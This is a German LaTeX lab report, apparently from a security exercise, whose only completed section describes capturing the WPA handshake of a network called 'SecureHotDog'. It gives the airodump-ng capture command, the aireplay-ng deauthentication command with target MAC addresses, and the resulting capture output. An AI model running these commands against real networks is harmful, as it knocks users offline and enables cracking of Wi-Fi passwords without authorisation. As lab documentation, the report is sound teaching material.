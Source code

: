 \documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\begin{document}
\subsection{FTP}
\emph{TO BE DONE}

\subsection{FTP 2}
\emph{TO BE DONE}

\subsection{WLAN-Passwort}

Um an die Hashes des WPA-Passwortes zu kommen haben wir durch das oben angegebene Tutorial herausgefunden dass man mit \lstinline{airodump-ng -w psk wlp3s0} den nötigen Handshake abfangen kann. Dafür muss sich aber ein Client beim Router authentifizieren, worauf wir 10 Minuten lang gewartet haben, aber leider keinen Handshake abgefangen haben. Ein paar Minuten später haben wir herausgefunden, dass wir einen Client deauhentifizieren können mit \lstinline{aireplay-ng -0 1 -a  00:18:39:BF:D7:66 -c 80:1F:02:AB:A9:9E wlp3s0} wo die erste MAC Addresse die vom SecureHotDog ist und die zweite eine von den zwei Clients die wir beobachtet haben.

Als Ergebnis hatten wir anschließend rechts oben sichtbar einen WPA handshake abgefangen für SecureHotDog:

\begin{lstlisting}
  CH  1 ][ Elapsed: 7 mins ][ 2018-11-23 15:05 ][ WPA handshake: 00:18:39:BF:D7:66

  BSSID		    PWR RXQ  Beacons	#Data, #/s  CH	MB   ENC  CIPHER AUTH ESSID
 
  02:18:39:BF:D7:67  -32  50	4319	  830	 0   1	54   OPN	      HotDog
  00:18:39:BF:D7:66  -32  54	4320	  359	 0   1	54   WPA  TKIP	 PSK  SecureHotDog
 
  BSSID		    STATION	       PWR   Rate    Lost    Frames  Probe
 
  02:18:39:BF:D7:67  74:DA:38:F0:40:C2  -29    1 -24	 0	482
  02:18:39:BF:D7:67  74:DA:38:F0:41:1C  -33    1 -24	 0	344
  02:18:39:BF:D7:67  80:1F:02:AB:A9:9C  -43    1 -24	 0	281
  02:18:39:BF:D7:67  80:1F:02:AB:A9:9B  -45    1 -24	 0	228
  00:18:39:BF:D7:66  80:1F:02:AB:A9:9E  -40    1 -24	 0	392
  00:18:39:BF:D7:66  80:1F:02:AB:A9:86  -43   54 -24	 0	256
\end{lstlisting}

\subsection{HTTPS}
\emph{TO BE DONE}
\end{document}
